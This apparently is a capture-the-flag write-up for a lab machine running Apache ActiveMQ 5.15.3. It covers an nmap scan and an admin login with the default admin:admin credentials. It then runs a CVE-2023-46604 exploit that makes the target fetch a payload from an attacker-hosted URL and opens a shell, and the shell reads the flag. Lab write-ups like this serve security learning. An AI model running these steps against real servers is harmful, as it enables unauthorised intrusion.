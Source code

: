 # Prime Time (user)
<p align="center">
    <img src="img/prime_time_user_chall.png" alt="Challenge" width="500" height="500"/>
</p>

We are given the IP of a machine, and start with a nmap scan to identify which ports are open.
```console
$ nmap -T 5 -p- 10.128.2.125 -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-03 00:16 CET
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.4 (protocol 2.0)
1883/tcp  open  mqtt
5672/tcp  open  amqp?
8161/tcp  open  http       Jetty 9.2.22.v20170606
39959/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
61614/tcp open  http       Jetty 9.2.22.v20170606
61616/tcp open  apachemq   ActiveMQ OpenWire transport
```

Port 8161 leads to an `ActiveMQ` website, which has links to `/admin` and `/demo`. The demo-endpoint gives a 404, while the admin-endpoint prompts us for login credentials.
<p align="center">
    <img src="img/prime_time_activemq.png" alt="ActiveMQ-website" width="500" height="500"/>
</p>

The default credentials for ActiveMQ is `admin:admin`, and we can login as admin, however other than revealing that the ActiveMQ version is `5.15.3` this path does not lead to anything.
<p align="center">
    <img src="img/prime_time_activemq_admin.png" alt="ActiveMQ-admin" width="500" height="500"/>
</p>

This version of ActiveMQ has a deserialization vulnerability, [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/cve-2023-46604), which gives attackers remote code execution.
We can use [this POC](https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell) to exploit the vulnerability and get shell on the server.

```console
$ python3 exploit.py -i 10.128.2.125 -si <attacker_ip>
#################################################################################
#  CVE-2023-46604 - Apache ActiveMQ - Remote Code Execution - Pseudo Shell      #
#  Exploit by Ducksec, Original POC by X1r0z, Python POC by evkl1d              #
#################################################################################

[*] Target: 10.128.2.125:61616
[*] Serving XML at: http://<attacker_ip>:8080/poc.xml
[!] This is a semi-interactive pseudo-shell, you cannot cd, but you can ls-lah / for example.
[*] Type 'exit' to quit

#################################################################################
# Not yet connected, send a command to test connection to host.                 #
# Prompt will change to Apache ActiveMQ$ once at least one response is received #
# Please note this is a one-off connection check, re-run the script if you      #
# want to re-check the connection.                                              #
#################################################################################

[Target not responding!]$ id
uid=998(prime) gid=995(prime) groups=995(prime),0(root) context=system_u:system_r:unconfined_service_t:s0
```

We get shell as the user `prime`, which can read the flag from `/home/activemq/user.txt`.
```console
Apache ActiveMQ$ cat /home/activemq/user.txt
EPT{d41d8cd98f00b204e9800998ecf8427e}
```
